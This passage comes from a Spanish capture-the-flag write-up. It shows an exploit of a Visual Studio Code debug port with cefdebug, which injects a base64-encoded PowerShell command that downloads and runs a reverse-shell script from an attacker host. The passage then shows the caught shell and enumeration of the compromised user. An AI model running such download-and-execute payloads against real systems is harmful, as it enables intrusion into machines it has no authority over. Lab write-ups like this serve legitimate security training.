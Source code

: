Ahora, inyecto el mismo comando en el exploit del Visual Studio Code

```null
*Evil-WinRM* PS C:\Temp> .\cefdebug.exe --url "ws://127.0.0.1:33740/8f253fe3-998c-41ab-9d5c-bf4404c743c7" --code "process.mainModule.require('child_process').exec('powershell -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANgAuADYALwBJAG4AdgBvAGsAZQAtAFAAbwB3AGUAcgBTAGgAZQBsAGwAVABjAHAALgBwAHMAMQAnACkA')"
```

Y recibo la reverse shell como el usuario cyork

```null
nc -nvlp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.179.
Ncat: Connection from 10.10.10.179:50083.
Windows PowerShell running as user cyork on MULTIMASTER
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files\Microsoft VS Code>whoami
megacorp\cyork
PS C:\Program Files\Microsoft VS Code> 
```

Este usuario pertenece al grupo Developers, por lo que lo más probable es que tenga acceso a las rutas de desarrollo web

```null
PS C:\Program Files\Microsoft VS Code>net user cyork
User name                    cyork
Full Name                    Connor York
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/9/2020 11:57:08 AM
Password expires             Never
Password changeable          1/10/2020 11:57:08 AM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   1/25/2023 4:46:14 AM

Logon hours allowed          All

Local Group Memberships      
Global Group memberships     *Domain Users         *Developers           
The command completed successfully.
```
